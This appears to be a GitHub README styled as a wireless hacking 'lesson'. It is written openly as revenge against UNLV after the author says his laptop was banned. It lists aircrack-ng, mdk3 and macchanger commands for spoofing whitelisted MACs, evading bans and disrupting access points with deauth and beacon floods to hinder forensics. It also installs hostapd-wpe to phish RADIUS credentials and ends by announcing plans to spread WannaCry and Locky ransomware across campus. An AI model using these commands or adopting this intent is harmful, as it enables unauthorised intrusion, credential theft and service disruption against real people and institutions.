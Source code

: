 Chang Tan

Lister Unlimited Cybersecurity Solutions, LLC.

changtan@listerunlimited.com

# Overview

WEP and WPA, any of them, are among the worst-implemented security standards in history, security holes galore even in RADIUS networks. Don't believe anything that IT or the pathetic Blue Team will tell you about how they can't be pwned.

In this lesson I will show you...

1. How to defeat every wireless implementation ever made, including WPA2-ENT/MGT
2. How to unban yourself by stealing a whitelisted MAC address.
3. How to turn your smart device into a Proxy NAT, converts cell phones into modems

This is in response to UNLV OIT's campaign of selective harassment against my laptop and my accusations of being a malicious hacker. I have decided to show off how ANYONE with ten dollars to afford on a special adapter can pull this off.

I also intend to flesh this section out much better, because with proper use of this section you can combine it with other tactics to launch devastating wireless attack campaigns with no trace of forensically identifiable data.

Now UNLV's routers uses a system known as WIDS, where multiple access points share the same name but have distinctly different MAC addresses. Within this system there are a handful of things that you should be aware of...

1. They have a blacklist of banned MACs, probably mine
2. They have a whitelist of allowed MACs, specific devices meant to connect such as other routers and diagnostic adapters.
3. For UNLV-Secure, they implemented RADIUS authentication, basically you get a username and a password. And if you don't, then you can go steal another person's user/pass by generating your own phishing hotspot.
4. For UNLV-Guest, they implemented HSTS but they can selectively turn them on and off for people me like at will. Because these fuckers are like Big Brother. THey also don't want me to graduate so they send these kiddie hackers to harass me and keep me from completing my online homework.
5. I highly recommend coding a framework that will automatically enter these commands. Because this is more like a cheatsheet. And live on the field, you need preparation to implement these.

Or make a script or something.


# Penetration Testing Adapters


There is a short list of criteria that defines a pentest capable adapter versus a standard wireless adapter owned by tools.

1. ARP Injection capable
2. Monitor Mode Capable.

And thats it. What is the price premium for such a fantastic adapter?

```Ten Dollars Extra```

Not kidding here folks. You can buy them here. Make sure you shop for the Atheros 9271 Chipset. The Realtek RT3070 is also decent but I highly recommend the ALFA-based A9271s.

# MDK3 MAC Address brute forcing and impersonation

Each wireless router has a set of default MAC addresses that it is designed to accept. If this did not exist, then nobody could administer the network. This is called whitelisting. WE need to find the whitelisted MAC addresses as so.

```
airmon-ng start <iface>
airodump-ng <moniface>
```

Now brute force a whitelisted MAC address.
```
mdk3 <iface> f -t <bssid>
```

Alternatively you can brute force a MAC address range you are aware that it accepts... for example, all mac address combinations start begins with 00:00:0A.
```
mdk3 <iface> -f -t <bssid> -m 00:00:0A
```
Once we have received a valid MAC address, we need to save it and then change our MAC address to it.
```
ifdown <iface>
macchanger -m '<mac>'
hostnamectl set-hostname '<name>'
rfkill unblock all
ifup <iface>
wpa_supplicant -i <iface> -c <config>
```
# Using mobile devices as a Proxy NAT

This should be used prior to purchasing any pentest adapters as it tends to work better. ANd you have a proxy NAT, its called a smartphone.

In either your iPhone or Android, plug it into your laptop and activate USB debugging and USB tethering.

[Network]------>[Wi-Fi]----------->[Smartphone Proxy 192.168.42.1]------>[usb0 Android Debugging iface]----> [HOST]
[HOST]------>[virbr0 virtual bridge]---->[Kali Linux]


```
ifconfig -a
```

```
ifconfig usb0 up
dhclient usb0
```

You also want to immediately ping google.com as soon as you regain control of your prompt. Some say ```8.8.8.8``` but `ping google.com` will show you whether or not DNS would work as well. If you can run the `dig` command then DNS is working. If you can `ping 8.8.8.8` but NOT `ping google.com` then DNS is NOT working.

If DNS breaks, then you should add the DNS by...

```
echo '8.8.8.8' >> /etc/resolv.conf
service resolvconf restart
dhclient usb0 && ping google.com
```

*Please be aware that installing services like WireGuard can seriously break DNS services on Debian. If you want to regain network connectivity at this point you would need to bring wireguard down with a `ifconfig wg0-client down` (even uninstalling Wireguard leaves Debian broken at this point)*

**This is pretty much how Linux works as of right now. They break it, you fix it. You're lucky I even managed to find this out. Most of the time we're left in the dark.**

# Defeating a RADIUS Network (WPA2-ENT)

Be sure to get the 'wpe' in the tag, as that is the proper one. It stands for wireless pwnage or pawn edition. And it has fake security so you can see credentials in cleartext.

```
apt-get update && apt-get install -y freeradius-wpe hostapd-wpe asleap mana-toolkit
```


# Defensive countermeasures with wireless adapters with mdk3

You can generate sensor ghosts to conceal your escape.
```
mdk3 <iface> w -e <essid> -c -z
```

You can spam duplicate hotspots
```
mdk3 <iface>  b -n <essid>
```

You can perform mass kicks and other types of disruption.

```
mdk3 <iface> d -w <whitelisted bssids> -b <blacklisted bssids>
```

You can merge another router's clients with this one making forensics even more difficult..

```
mdk3 <iface> w -e <essid> -c -z
```

You can test whether or not IT will temporarily remove WPA encryption by checking if he will downgrade it to allow connectivity to work again
```
mdk3 <iface> g -t <bssid>
```

# Basic attacks

Now, since I wanted me revenge against this shithole school, I am going to intentionally show you how to..

1. Create rogue access points.
2. Create phishing pages.
3. Cause widespread outbreaks of WannaCry, Locky, and AndroidL0cker
4. Where to find dangerously powerful new malware, including WannaCry, WannaCry+, and two proof of concept variants of SPECTRE and MELTDOWN.

I hope you are excited, because I sure am. The epidemic of cyberattacks on the campus could drain the coffers of the entire school as they try to respond to it.
